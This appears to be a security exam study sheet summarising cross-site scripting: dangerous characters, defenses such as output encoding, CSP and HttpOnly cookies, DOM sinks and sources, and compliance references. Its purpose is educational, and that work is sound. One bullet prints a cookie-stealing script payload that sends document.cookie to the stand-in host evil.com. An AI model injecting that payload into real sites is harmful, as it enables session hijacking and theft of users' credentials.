- **Dangerous Special Characters:** `<`, `>`, `"`, `'`, `&`, `/` — these are the breaking characters in every payload.
- **Bypass Mechanism:** XSS bypasses the **Same-Origin Policy (SOP)** by running in the trusted origin's context.
- **Primary Defense:** **Output encoding** (context-aware) — `htmlspecialchars()` in PHP, `textContent` in JavaScript DOM, `escapeHtml()` in Node.js.
- **Secondary Defenses:** Input validation, **Content Security Policy (CSP)**, `HttpOnly` cookies, `Secure` flag, `SameSite` cookies, sanitization libraries (DOMPurify).
- **The CSP Header:** `Content-Security-Policy: default-src 'self'; script-src 'self'`
- **The HttpOnly Cookie:** `Set-Cookie: SID=value; HttpOnly; Secure; SameSite=Strict`
- **DOM Sinks to Avoid:** `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout(string)`, `setInterval(string)`.
- **DOM Sources (Attack Vectors):** `document.URL`, `location.hash`, `location.search`, `document.referrer`, `window.name`.
- **Cookie Stealing Payload (must memorize):** `<script>new Image().src='https://evil.com/?c='+document.cookie</script>`
- **XSS Detection in Code:** Look for raw concatenation of user input into HTML/JS contexts.
- **The 5-Layer Defense Formula:** Input Validation + Output Encoding + Cookie Hardening + CSP Headers + Trusted Types.
- **Real-World Impact:** Session hijacking, defacement, credential theft, keylogging, phishing, malware distribution, worm propagation (e.g., Samy Worm 2005).
- **Compliance Standards:** PCI-DSS 6.2.4, OWASP ASVS 5.3, NIST SP 800-53 SI-10 — all require XSS protections.
- **Board Exam Key Words to Use:** "context-aware output encoding," "Same-Origin Policy bypass," "Content Security Policy," "HttpOnly flag," "input validation as allow-list," "DOM sink," "DOM source."
- **One-Line Mantra for the Board:**
  $$\text{Encode on Output, Validate on Input, Restrict via CSP, Protect Cookies.}$$

<!-- SECTION_5_END -->
